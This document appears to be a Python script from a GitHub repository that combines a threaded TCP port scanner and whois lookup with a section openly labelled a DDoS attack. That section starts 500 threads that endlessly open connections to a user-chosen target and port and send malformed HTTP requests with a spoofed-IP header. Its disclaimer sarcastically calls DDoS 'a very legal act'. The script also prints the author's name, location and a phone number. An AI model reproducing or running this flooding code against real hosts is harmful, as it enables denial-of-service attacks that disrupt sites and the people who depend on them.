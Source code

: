 # portscan0
portscanner

###===========+++ portscan  script to scan open ports of sites+++============###


###===================++++Import required libraries++++======================###
import sys 

import os

import subprocess as ps

import whois

from  queue import  Queue

import socket 

import threading

import cowsay

import os

from datetime import datetime

from pyfiglet import  Figlet

from colorama import init, AnsiToWin32, Fore, Back 

init(wrap=False) 
stream = AnsiToWin32(sys.stderr).stream
tem =ps.call("cls"  ,  shell=True)#For Windows, use the word "cls" instead of "clear"#
print(Fore.BLUE,"",file=stream)
cowsay.daemon("portscanner")
print(Fore.YELLOW,"",file=stream)
Text= Figlet(font="slant") 
print(Text.renderText("portscanner"))   
print(Fore.MAGENTA, " ||========== HELLO BEAUTIFUL  WORLD ======= I LOVE YOU PYTHON!========||", file=stream)
print()
print(Fore.GREEN ,"||======  MR.Raisi ======||",file=stream)
print()
print(Fore.CYAN,"||--------  IRAN  --------||",file=stream)
print()
print(Fore.YELLOW,"||-----===  Sistan and  Baluchestan_Chabahar  ===------||",file=stream)
print()
print(Fore.RED,"||------------   0915375565  --------||",file= stream)
print()
print( Fore.YELLOW,"*"*60,file=stream)
print()
remoteserver = input( "|======  Enter Your HostName or IpAdress: ")
print()
print(Fore.YELLOW,"*"*60,file=stream)

target = socket.gethostbyname(remoteserver)

url=whois.whois(target)

queue=Queue()

open_ports =[]

Time1 = datetime.now()

print(Fore.BLUE,"_"*65 ,file=stream)
print()
print(Fore.GREEN,"Please wait while the script is scanning the host:",target,file=stream)
print()
print(Fore.BLUE,"_"*65,file=stream)

def portscan(port):
    try:
        sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        sock.connect((target,port))
        return True
    except:
        return False
def get_ports(mode):
    if mode == 1:
        for port in range(1,1024):
            queue.put(port)
    elif mode == 2:
        for port in range(1,49154):
            queue.put(port)
    elif mode == 3:
        ports = [20,21,22,23,25,53,80,110,443]
        for port in ports:
            queue.put(port)
    elif mode == 4:
        ports=input(Fore.RED,"Enter  your ports(seperate by blank):", file=stream)
        ports = ports.split()
        ports = list(map(int,ports))
        for port in ports:
            queue.put(port)
def processor():
    while not queue.empty():
        port =queue.get()
        if portscan(port):
            print(Fore.YELLOW, "Port  {} is open!!".format(port), file=stream)
            open_ports.append(port)
       # else:##You can disable or delete this section##
           # print(Fore.RED ,"Port  {} is closed!!".format(port), file=stream)
def run_scanner(threads,mode):
    get_ports(mode)
    thread_list=[]
    for t in range(threads):
        thread = threading.Thread(target=processor)
        thread_list.append(thread)
    for thread in thread_list:
        thread.start()
    for thread in thread_list:
        thread.join()

    print(Fore.GREEN,"Open ports are:======>>",open_ports, file=stream)
run_scanner(100,1)

Time2=datetime.now()
Total=Time2-Time1
print("="*65)
print(Fore.MAGENTA ,"scanning fnish in:======>>:",Total,file=stream)
print("="*65)
print(Fore.BLUE,url.text,file=stream)
#print(Fore.RED,"_"*65, file=stream)
print(Fore.BLUE,"Good luck and have a great day, dear friend, goodbye!!",file=stream)
print(Fore.BLUE,"_"*65,file=stream)


##This is the code for the DDos attack##

''' Attackin DDos on site severs is a very legal act
all over the word !! This script is writen only for
learning and practicing scripting with paython!!Iam not
responsible for doing very legal work with this script,
it is better to test it on your own host and sever.
@ Thank YOU!

      MR.Raisi

'''
print(Fore.RED,"*"*120,file=stream)
print()
print(Fore.WHITE,"This part of the script is for DDos attack,Are you sure you want to continue? If yes, then Enter the requested information!",file=stream)
print(Fore.GREEN,"",file=stream)
cowsay.daemon("AttackDDos")
print(Fore.RED,"",file=stream)
print(Text.renderText("AttackDDos"))
print()
print("||===== A dangerous DDos attack is a very legal act! ====||")
print()
feke_ip=input("Enter your Feke_IP:")
print()
port=int(input("Enter your Port:"))

already_connected = 0

def attack():
    while True:

    
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((target,port))
        s.sendto(("GET /" +target+ "HTTP /1.1\r\n").encode("ascii"),(target,port))
        s.sendto(("HTTP /" +feke_ip+ "\r\n\r\n").encode("ascii"),(target,port))
        s.close()

        global already_connected
        already_connected +=1
        if already_connected % 500 ==0:
            print(Fore.YELLOW,already_connected,file=stream)
    


for i in range(500):
    thread = threading.Thread(target=attack)
    thread.start()


print(Fore.GREEN,"The DDos attack is over!",Total,file=stream)
#print(Fore.RED,"The attack was successful!!",file=stream)
print(Fore.BLUE,"Good luck and have a great day, dear friend, goodbye!! ",file=stream)
print(Fore.BLUE,"_"*60,file=stream)

